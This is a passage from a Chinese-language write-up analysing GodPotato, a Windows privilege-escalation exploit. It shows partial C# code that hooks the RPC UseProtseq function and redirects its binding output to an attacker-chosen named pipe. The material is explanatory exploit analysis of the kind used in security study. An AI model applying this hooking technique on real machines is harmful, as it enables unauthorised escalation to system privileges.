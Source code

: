 ```cpp

    for (int i = 0; i < endpoints.Length; i++)
    {
        string endpoint = endpoints[i];
        for (int j = 0; j < endpoint.Length; j++)
        {
            Marshal.WriteInt16(pdsaNewBindings, offset, (short)endpoint[j]);
            offset += 2;
        }
        offset += 2;
    }

    Marshal.WriteIntPtr(ppdsaNewBindings, pdsaNewBindings);

    return 0;
}
```



在`NewOrcbRPC`类中，还有多个`funX`函数来对`fun`函数进行包装，这是为了Hook时能够处理着不同参数数量的RPC函数，并将最后两个参数传递给fun函数（其实真正需要的是倒数第二个参数）

```cpp
 		public delegate int delegateFun4(IntPtr p0, IntPtr p1, IntPtr p2, IntPtr p3);
        public delegate int delegateFun5(IntPtr p0, IntPtr p1, IntPtr p2, IntPtr p3, IntPtr p4);
        .....
        .....
        public delegate int delegateFun14(IntPtr p0, IntPtr p1, IntPtr p2, IntPtr p3, IntPtr p4, IntPtr p5, IntPtr p6, IntPtr p7, IntPtr p8, IntPtr p9, IntPtr p10, IntPtr p11, IntPtr p12, IntPtr p13);
        
        
        public  int fun4(IntPtr p0, IntPtr p1, IntPtr p2, IntPtr p3)
        {
            return fun(p2, p3);
        }
        .....
        .....
        public  int fun14(IntPtr p0, IntPtr p1, IntPtr p2, IntPtr p3, IntPtr p4, IntPtr p5, IntPtr p6, IntPtr p7, IntPtr p8, IntPtr p9, IntPtr p10, IntPtr p11, IntPtr p12, IntPtr p13)
        {
            return fun(p12, p13);
        }
```



使用`RPC View`来分析GodPotato到底Hook了什么函数，由下图可以看到，RPC调度表的第一个函数是`UseProtseq`，此函数来自`IorCallback`接口，其原型如下所示，此函数的目的是注册或使用一个指定的协议序列，并返回新的绑定信息和安全信息。

而我们就是通过Hook此函数来修改其倒数第二个参数为我们指定的命名管道

```cpp
error_status_t UseProtseq(
    [in] handle_t hRpc,     // 用于表示RPC的句柄
    [in] unsigned short wTowerId,   // 表示要使用的协议序列的标识符
    [out] DUALSTRINGARRAY **ppdsaNewBindings,  // 注册协议序列后的新绑定信息
    [out] DUALSTRINGARRAY **ppdsaNewSecurity  // 新绑定相关的安全信息
);
```
